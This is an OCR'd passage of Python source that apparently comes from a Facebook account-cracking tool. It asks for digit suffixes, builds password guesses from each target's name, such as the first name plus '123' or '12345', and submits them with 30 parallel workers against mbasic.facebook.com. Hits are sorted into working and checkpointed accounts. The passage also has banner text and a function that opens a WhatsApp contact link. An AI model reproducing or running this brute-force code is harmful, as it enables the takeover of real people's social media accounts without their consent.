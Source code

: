             print("")

            print("\033[1;37m\r   Enter Last Name Digits\033[1;37m\n")

            print ("\033[1;37m\r   Exmple : 123 + 12345 + 1234 + 1122\033[1;37m\n")

            p1 = input('   Name + 1 : ')

            p2 = input('   Name + 2 : ')

            p3 = input('   Name + 3 : ')

            p4 = input('   Name + 4 : ')

            os.system("clear")

            print(logo)

            print("\033[1;32m      Dont Forget Allah😊 \033[1;37m")

            print(" [$]~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~[$]")

            with sarfrazssb(max_workers=30) as ssbworld:

                for zsb in self.id: # Yo Ndak Tau Kok Tanya Saia

                    try:

                        uid, name = zsb.split('|')

                        xz = name.split(' ')

                        if len(xz) == 3 or len(xz) == 4 or len(xz) == 5 or len(xz) == 6:

                            pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"]

                        else:

                            pwx = [name, xz[0]+"123", xz[0]+xz[1], xz[0]+"12345"]

                        ssbworld.submit(self.__metode__, uid, pwx, "mbasic.facebook.com")

                    except:

                        pass

            hasil(ok,cp)

        else:

            print('\n Select Valid One')

            self.__pler__()

            

def dupcutter():

	os.system("xdg-open https://wa.me/+923047274393")

	time.sleep(3)

	R()

def yt():
